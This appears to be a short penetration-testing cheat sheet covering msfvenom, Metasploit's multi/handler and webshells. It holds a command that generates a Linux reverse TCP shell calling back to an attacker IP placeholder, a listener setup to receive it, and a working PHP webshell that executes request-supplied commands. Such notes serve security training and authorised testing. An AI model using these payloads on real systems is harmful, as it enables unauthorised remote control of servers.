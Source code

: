 
## msfvenom

msfvenom is a tool for generating various types of payloads used in penetration testing. It combines the functionalities of msfpayload and msfencode.

### Basic Usage

```bash
msfvenom -p linux/x86/shell_reverse_tcp LHOST=<attacker-ip> LPORT=4444 -f elf -o shell.elf
```

This command generates a reverse TCP shell payload for Linux in ELF format.

---

## Metasploit multi/handler

Metasploit's `multi/handler` is a versatile exploit handler used to receive connections from payloads generated by msfvenom or other methods.

### Setting Up a Listener

1. **Start Metasploit**:

   ```bash
   msfconsole
   ```

2. **Configure multi/handler**:

   ```bash
   use exploit/multi/handler
   set payload linux/x86/shell_reverse_tcp
   set LHOST <attacker-ip>
   set LPORT 4444
   exploit
   ```

---

## WebShells

WebShells are scripts uploaded to a web server to gain remote control over it. They can be written in various languages such as PHP, ASP, or JSP.

### Example PHP WebShell

```php
<?php
if(isset($_REQUEST['cmd'])){
    $cmd = ($_REQUEST['cmd']);
    system($cmd);
}
?>
```

This simple WebShell executes commands sent via the `cmd` parameter in a web request.
